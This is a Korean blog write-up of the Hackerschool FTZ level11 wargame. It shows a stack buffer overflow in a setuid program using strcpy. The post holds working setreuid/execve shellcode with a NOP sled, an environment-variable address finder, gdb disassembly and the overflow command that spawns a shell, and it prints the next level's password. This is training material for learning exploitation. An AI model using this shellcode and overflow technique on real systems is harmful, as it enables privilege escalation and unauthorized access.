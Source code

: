 ```yaml
---
layout: post
title: "Hackerschool FTZ-level11"
categories: [Hackerschool-FTZ]
tags: [pwnable]
redirect_from:
 - /2019/05/23/
---
```

```bash
login as: level11 
level11@~~~~'s password: 
[level11@ftz level11]$ ls 
attackme  hint  public_html  tmp 
[level11@ftz level11]$ cat hint 

#include  <stdio.h>
#include  <stdlib.h>

int main( int argc, char *argv[] ) 
{ 
        char str[256]; 

        setreuid( 3092, 3092 ); 
        strcpy( str, argv[1] ); 
        printf( str ); 
} 


[level11@ftz level11]$
```



level11/what!@#$?로 접속하자.
아무래도 hint는 attakeme의 소스 파일일 것이다.
이 프로그램의 문제는, strcpy에 있다.
이 함수는 문자열을 복사해 주는 함수인데, 길이 제한을 생각하지 않고 복사한다.
그러므로 버퍼오버플로우를 해낼 수 있는 것이다.
우선 /tmp로 복사해오자.


```bash
[level11@ftz level11]$ cp hint /tmp/a.c 
[level11@ftz level11]$ cd /tmp 
[level11@ftz tmp]$ cat a.c 

#include  <stdio.h>
#include  <stdlib.h>

int main( int argc, char *argv[] ) 
{ 
        char str[256]; 

        setreuid( 3092, 3092 ); 
        strcpy( str, argv[1] ); 
        printf( str ); 
} 

[level11@ftz tmp]$ gcc -o a a.c 
[level11@ftz tmp]$
```


한글이 없으므로 바로 컴파일까지 돌렸다.
이제부터 쉘 코드가 필요하다.
쉘 코드는 프로그램을 실행시키게 해 주는 기계어이다.
/bin/bash를 해주는 쉘 코드를 지역변수에 등록해주자.


```bash
export code=$(python -c 'print"\x90"*100+"\x31\xc0\x31\xdb\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"')
```

\x90은 nop 문자이다. 아무런 행동을 취하지 않는 문자라고 생각하면 된다.
앞에 \x90을 많이 채워 넣은 것은 nop슬레드라고 하며 주소값이 변경되도 쉘 코드가 문제 없이 실행되게 해 주기 위해 넣는다.
env 명령어를 통해 지역 변수에 잘 올라갔는지 확인할 수 있다.
```bash
PWD=/home/level11 
LANG=en_US.UTF-8 
PS1=[\u@\h \W]$ 
SHLVL=1 
HOME=/home/level11 
BASH_ENV=/home/level11/.bashrc 
LOGNAME=level11 
SSH_CONNECTION=192.168.194.1 51165 192.168.194.129 22 
code=릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱먆릱릱릱릱릱릱릱릱릱릱릱릱??方F?1픐h//shh/bin됥PS됣됀? 
                                                       ?1육? 
LESSOPEN=|/usr/bin/lesspipe.sh %s 
G_BROKEN_FILENAMES=1 
_=/bin/env 
[level11@ftz level11]$
```


이제 이 환경변수의 주소를 찾아보자.
C프로그램을 하나 만들자.


```bash
[level11@ftz tmp]$ vi find.c 
[level11@ftz tmp]$ gcc -o find find.c 
[level11@ftz tmp]$ cat find.c 
#include <stdio.h>
int main() 
{ 
        printf("%x\n",getenv("code")); 
} 
[level11@ftz tmp]$
```

getenv()는 환경변수의 주소값을 얻는할을 한다.
```bash
[level11@ftz tmp]$ ./find 
bfffff14
```


환경변수의 주소값을 알아냈다.

이제 dbg를 돌려 공격할 방법을 찾아보자.


```bash
[level11@ftz tmp]$ gdb a 
GNU gdb Red Hat Linux (5.3post-0.20021129.18rh) 
Copyright 2003 Free Software Foundation, Inc. 
GDB is free software, covered by the GNU General Public License, and you are 
welcome to change it and/or distribute copies of it under certain conditions. 
Type "show copying" to see the conditions. 
There is absolutely no warranty for GDB.  Type "show warranty" for details. 
This GDB was configured as "i386-redhat-linux-gnu"... 
(gdb) set disassembly-flavor intel 
(gdb) disas main 
Dump of assembler code for function main: 
0x08048394 <main+0>:    push   ebp 
0x08048395 <main+1>:    mov    ebp,esp 
0x08048397 <main+3>:    sub    esp,0x108 
0x0804839d <main+9>:    and    esp,0xfffffff0 
0x080483a0 <main+12>:   mov    eax,0x0 
0x080483a5 <main+17>:   sub    esp,eax 
0x080483a7 <main+19>:   sub    esp,0x8 
0x080483aa <main+22>:   push   0xc14 
0x080483af <main+27>:   push   0xc14 
0x080483b4 <main+32>:   call   0x80482c4  <setreuid>
0x080483b9 <main+37>:   add    esp,0x10 
0x080483bc <main+40>:   sub    esp,0x8 
0x080483bf <main+43>:   mov    eax,DWORD PTR [ebp+12] 
0x080483c2 <main+46>:   add    eax,0x4 
0x080483c5 <main+49>:   push   DWORD PTR [eax] 
0x080483c7 <main+51>:   lea    eax,[ebp-264] 
0x080483cd <main+57>:   push   eax 
0x080483ce <main+58>:   call   0x80482d4  <strcpy>
0x080483d3 <main+63>:   add    esp,0x10 
0x080483d6 <main+66>:   sub    esp,0xc 
0x080483d9 <main+69>:   lea    eax,[ebp-264] 
0x080483df <main+75>:   push   eax 
0x080483e0 <main+76>:   call   0x80482b4  <printf>
0x080483e5 <main+81>:   add    esp,0x10 
0x080483e8 <main+84>:   leave 
0x080483e9 <main+85>:   ret 
0x080483ea <main+86>:   nop 
0x080483eb <main+87>:   nop 
End of assembler dump. 
(gdb)
```


main+3을 보면, 주소값을 0x108만큼 할당한다.
이는 10진수 264이다.
C 코드에서 254만큼 배열의 크기를 지정하는데, 왜 264일까?
그것은 더미이다.
gcc가 업데이트되며 프로그램이 컴파일될때 메모리에 더미가 생긴다.
그러므로 스택의 상태는 이럴 것이다.

|     |
|:----|
|RET|4
|SFP|4
|dummy|8
|srt|256



RET에 아까 넣어 주었던 환경변수의 주소값을 채워 넣으면, 프로그램이 끝나며 /bin/bash가 실행될 것이다.
str+dummy+SFP=268이므로 아무 값이나 268개를 채우고 그 뒤에 환경변수의 주소를 넣자.


```bash
[level11@ftz level11]$ ./attackme $(python -c 'print"a"*268+"\x14\xff\xff\xbf"') 
sh-2.05b$ my-pass 
TERM environment variable not set. 

Level12 Password is "it is like this". 

sh-2.05b$ 
```


성공이다.

level12's password:"it is like this"
